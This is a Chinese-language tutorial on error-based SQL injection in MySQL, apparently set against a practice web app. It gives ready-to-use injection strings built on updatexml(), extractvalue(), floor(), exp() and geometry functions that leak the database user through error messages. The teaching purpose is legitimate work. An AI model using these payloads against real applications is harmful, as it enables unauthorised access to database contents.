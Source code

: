 ### 报错注入攻击

	在输入框输入报错的sql拼接语句

```mysql
1' and info()-- 
```

它的原理是下面一条语句会执行但是会报错，在报错信息中会返回数据库名称

```mysql
SELECT first_name,last_name from users WHERE user_id='1' and info()
```

### 报错注入获取敏感信息

	通过构造sql语句，返回带有数据库敏感信息的错误信息

```mysql
1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- 
```

注意：这里为什么要用`updatexml()`呢，首先要先了解这个函数

> updatexml(xml_doument,XPath_string,new_value)
> 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
> 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
> 第三个参数：new_value，String格式，替换查找到的符合条件的数据

简单点说，这个函数有三个参数，我们利用第二个参数必须要更改信息的xpath语句来进行报错注入。

为什么要在第二个参数里面加上concat语句呢？因为updatexml（）第二个参数需要进行xpath校验，如果第二个参数哪里不是xpath语句它会进行一次校验然后把校验后的`错误信息返回`



> 但是采用 updatexml 报错函数 只能显示 32 长度的内容，如果获取的内容超过 32
>
> 字符就要采用字符串截取方法。每次获取 32 个字符串的长度。
>
> 除了 updatexml 函数支持报错注入外，mysql 还有很多函数支持报错。
>
> 例如：
>
> ```mysql
> 1.floor()
> select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a);
> 2.extractvalue()
> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
> 3.updatexml()
> select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
> 4.geometrycollection()
> select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
> 5.multipoint()
> select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
> 6.polygon()
> select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
> 7.multipolygon()
> select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
> 8.linestring()
> select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
> 9.multilinestring()
> select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
> 10.exp()
> select * from test where id=1 and exp(~(select * from(select user())a));
> ```
>
> 